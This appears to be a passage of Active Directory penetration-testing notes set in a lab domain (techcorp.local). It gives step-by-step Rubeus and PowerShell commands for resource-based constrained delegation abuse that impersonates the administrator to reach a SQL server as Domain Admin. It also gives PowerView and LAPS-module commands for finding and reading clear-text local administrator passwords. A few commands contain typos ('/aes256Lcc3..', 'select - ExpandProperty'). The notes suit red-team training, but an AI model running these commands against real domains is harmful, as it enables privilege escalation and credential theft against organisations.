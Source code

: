 ```powershell
# 1. Assume we have already compromised us-mgmt. We want to configure RBCD on us-mgmt using us-mgmt$ computer account.
# Configure RBCD on us-mgmt using us-mgmt$ computer account.
Rubeus.exe asktgt /user:us-mgmt$ /aes256Lcc3.. /impersonateuser:administrator /domain:us.techcorp.local /ptt /nowrap

Set-ADComputer -Identity us-mgmt$ -PrincipalsAllowedToDelegateToAccount studentcompx$ -Verbose

# 2. Request a new forwardable TGS/Service Ticket by leveraging the ticket created.
Rubeus.exe s4u /tgs:doIGxj... /user:us-mgmt$ /aes256:cc3... /msdsspn:cifs/us-mssql.us.techcorp.local /alterservice:http /nowrap /ptt

# Access the us-mssql using WinRM as the Domain Admin
winrs -r:us-mssql.us.techcorp.local cmd.exe
```

### LAPS (Local Administrator Password Solution)

##### Methodology/Steps

>   1.  Identify the user who can read the LAPS creds
>   2.  Identify the OU where LAPS is implemented and which user can read it
>   3.  After compromising the user who can read the LAPS, read the creds

------

##### PowerView

```powershell
# 1. To find users who can read the passwords in clear text machines in OUs
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}

# 2. To enumerate OUs where LAPS is in use along with users who can read the passwords in clear text
# Using Active Directory module
.\Get-LapsPermissions.ps1

# Using LAPS module (can be copied across machines)
Import-Module AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName

# 3. Once we compromise the user which has the Rights, use the following to read clear-text password
# Powerview
Get-DomainObject -Identity <targetmachine$> | select - ExpandProperty ms-mcs-admpwd

# Active Directory module
Get-ADComputer -Identity <targetmachine> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd

# LAPS module
Get-AdmPwdPassword -ComputerName <targetmachine>
```
